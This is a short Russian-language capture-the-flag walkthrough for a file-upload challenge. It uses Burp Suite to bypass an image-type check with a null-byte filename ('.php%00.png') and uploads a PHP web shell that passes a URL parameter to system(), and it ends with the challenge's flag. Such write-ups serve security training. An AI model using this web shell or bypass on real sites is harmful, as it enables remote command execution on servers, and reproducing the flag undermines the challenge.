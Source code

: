 # File upload - Null byte | 25 баллов | Gallery v0.04

1. Переходим на страницу upload  
![markdown logo](https://fv20.failiem.lv/thumb_show.php?i=yrxnvvtky&view)
2. Затем при помощи [Burp Suite](https://kmb.cybber.ru/web/burp/main.html) формируем POST запрос на сайт со страницы upload
- Меняем "Content-Type: image/gif" и дописываем в filename="FileName.php%00.png
* Так же добавляем произвольный PHP код с функцией system:
```php
//php code
<?php 
system($_GET['command']);
?>
```
![markdown logo](https://fv20.failiem.lv/thumb_show.php?i=e8pq4b723&view)

3. Делаем запрос, затем копируем куки в браузер по умолчанию, и открываем загруженный файл. 
![markdown logo](https://fv20.failiem.lv/thumb_show.php?i=bgdu9nsfp&view)
##### h5 flag: YPNchi2NmTwygr2dgCCF 

